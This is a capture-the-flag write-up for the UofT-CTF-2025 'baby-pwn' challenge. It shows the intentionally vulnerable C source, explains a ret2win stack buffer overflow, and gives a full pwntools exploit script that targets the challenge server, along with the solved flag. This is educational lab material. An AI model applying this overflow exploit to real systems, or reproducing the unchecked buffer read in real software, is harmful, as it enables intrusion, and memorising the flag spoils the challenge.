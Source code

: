 ```yaml
---
layout: writeup
category: UofT-CTF-2025
chall_description: 
points: 100
solves: 459
tags: pwn buffer-overflow ret2win
date: 2025-1-12
comments: false
---
```


Here's a baby pwn challenge for you to try out. Can you get the flag?

nc 34.162.142.123 5000

Author: atom

[baby-pwn.zip](https://github.com/Nightxade/ctf-writeups/blob/master/assets/CTFs/UofT-CTF-2025/baby-pwn.zip)  

---

We're provided the binary along with the source file:  

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

void secret()
{
    printf("Congratulations! Here is your flag: ");
    char *argv[] = {"/bin/cat", "flag.txt", NULL};
    char *envp[] = {NULL};
    execve("/bin/cat", argv, envp);
}

void vulnerable_function()
{
    char buffer[64];
    printf("Enter some text: ");
    fgets(buffer, 128, stdin);
    printf("You entered: %s\n", buffer);
}

int main()
{
    setvbuf(stdout, NULL, _IONBF, 0);
    printf("Welcome to the Baby Pwn challenge!\n");
    printf("Address of secret: %p\n", secret);
    vulnerable_function();
    printf("Goodbye!\n");
    return 0;
}
```

No need to even look at the binary's protections here -- this is a simple, easy ret2win.  

We have a buffer overflow on `buffer`, allowing us to overwrite the saved RIP, as 128 bytes are read into a 64 byte buffer. Also, he program leaks the address of `secret()`, so we can just write that to saved RIP!  

The exploit can be summed up in three lines:  

```py
# send(cyclic(128, n=8), b': ')
offset = cyclic_find('jaaaaaaa', n=8)
send(b'A'*offset + p64(elf.sym.secret), b': ')
```

The first (commented-out) line, when we run the binary with GDB attached, will give us the offset in our input where the saved RIP is. The next two lines use that information to overwrite the saved RIP with the address of `secret()` (turns out you don't even need the program's leak because the binary doesn't have the PIE protection enabled!)  

And we get the flag!  

	uoftctf{buff3r_0v3rfl0w5_4r3_51mp13_1f_y0u_kn0w_h0w_t0_d0_1t}

Full script (it's long because I made a pwn template for myself):  

```py
# Useful references:
# https://gist.github.com/anvbis/64907e4f90974c4bdd930baeb705dedf

from pwn import *
import sys
import os

#---------HELPER FUNCTIONS---------#

def get_leak(before: bytes, end: bytes=b'\n') -> int:
    p.recvuntil(before)
    return int(p.recvuntil(end).decode('ascii')[:-1], 16)

def send(payload: bytes, before: bytes=b'', line: bool=True) -> int:
    payload = payload + (b'\n' if line else b'')
    if before == b'':
        p.send(payload)
    else:
        p.sendafter(before, payload)


#---------SETUP---------#

args = list(map(lambda s: s.upper(), sys.argv))
_libcs = list(filter(lambda s: 'libc.so.6' in s, os.listdir()))
_lds = list(filter(lambda s: 'ld' == s[:2], os.listdir()))

elf = ELF("baby-pwn") #------TODO------#
libc = _libcs[0] if len(_libcs) else elf.libc
ld = _lds[0] if len(_lds) else None

context.binary = elf
context.log_level = "DEBUG"

gdbscript = '''
# 
'''

if 'REMOTE' in args:
    p = remote('34.162.142.123', 5000) #------TODO------#
else:
    p = process([elf.path])
    gdb.attach(p, gdbscript=gdbscript)


###################################
#==========BEGIN EXPLOIT==========#
###################################

# send(cyclic(128, n=8), b': ')
offset = cyclic_find('jaaaaaaa', n=8)
send(b'A'*offset + p64(elf.sym.secret), b': ')

###################################
#===========END EXPLOIT===========#
###################################


p.interactive()
p.close()

# uoftctf{buff3r_0v3rfl0w5_4r3_51mp13_1f_y0u_kn0w_h0w_t0_d0_1t}
```
